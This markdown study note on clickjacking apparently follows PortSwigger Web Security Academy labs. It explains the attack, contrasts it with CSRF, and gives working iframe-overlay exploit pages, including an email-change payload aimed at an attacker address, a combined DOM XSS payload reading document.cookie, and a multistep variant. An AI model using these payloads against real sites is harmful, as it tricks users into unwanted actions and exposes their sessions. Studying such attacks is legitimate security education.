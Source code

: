 # Clickjacking (UI redressing)
## clickJacking
- it is an interface based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.
- `Example: `
- A web user access a decoy website (i.e link provided by `phishing mail`) and click on a button to win a prize.
- unknowingly, they have been deceived by an attacker into pressing an alternative hidden button and this result in `payment to the attacker or any thing like purchasing subscription to attacker etc`.
- this is example of `clickjacking attack`
- the technique is depend on the `actionable and invisible webpage`
- `Note:` this attack is different from the `CSRF` because in `CSRF we do unintentionable action without user's knowledge and intraction` while in `Clickjacking` user need to click button which trigger hidden iframe or link to do certain tasks.
- Protection against CSRF attacks is often provided by the use of a `CSRF token` a session-specific, single-use number or nonce. `Clickjacking` attacks are not mitigated by the `CSRF token` as a target session is established with content loaded from an authentic website and with all requests happening on-domain. `CSRF tokens` are placed into requests and passed to the server as part of a normally behaved session. The difference compared to a normal user session is that the process occurs within a hidden iframe.

# how to construct basic clickjacking attack
- it use CSS to create and manipulate layers 
- `Example: `
```js
<head>  
  <style>  
    #target_website {  
      position:relative;  
      width:128px;  
      height:128px;  
      opacity:0.00001;  
      z-index:2;  
      }  
    #decoy_website {  
      position:absolute;  
      width:300px;  
      height:400px;  
      z-index:1;  
      }  
  </style>  
</head>  
...  
<body>  
  <div id="decoy_website">  
  ...decoy web content here...  
  </div>  
  <iframe id="target_website" src="https://vulnerable-website.com">  
  </iframe>  
</body>
```

adjust buttons to the iframe button and send to victim

another exploit 
```js
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.000001;
       z-index: 2;
   }
   div {
       position:absolute;
       top: 450px;
       left: 80px;
       z-index: 1;
   }
</style>
<div>Click</div>
<iframe sandbox="allow-forms" src="https://ac541f881fc916be80be6fa300d3000a.web-security-academy.net/my-account/?email=hacker@attacker-website.com"></iframe>
```

## Combining Clickjacking with DOM XSS attack
exploit
```js
<style>  
   iframe {  
       position:relative;  
       width:700;  
       height: 500;  
       opacity: 0.00001;  
       z-index: 2;  
   }  
   div {  
       position:absolute;  
       top:410;  
       left:80;  
       z-index: 1;  
   }  
</style>  
<div>Test me</div>  
<iframe  
src="$url?name=<img src=1 onerror=alert(document.cookie)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

## Multistep Clickjacking
- Attacker manipulation of inputs to a target website may necessitate multiple actions. For example, an attacker might want to trick a user into buying something from a retail website so items need to be added to a shopping basket before the order is placed. These actions can be implemented by the attacker using multiple divisions or iframes. Such attacks require considerable precision and care from the attacker perspective if they are to be effective and stealthy.
```js
<style>
   iframe {
       position:relative;
       width:700px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:450px;
       left:55px;
       z-index: 1;
   }
   .secondClick {
       top:535px;
       left:55px;
   }
</style>
<div class="firstClick">Click me First</div>
<div class="secondClick">Click me next</div>
<iframe src="https://ac7a1fcf1f6afc5080da19c4004e0043.web-security-academy.net/my-account/"></iframe>
```

## Protecting Against ClickJacking 
### [portswigger-web-security](https://portswigger.net/web-security/clickjacking)
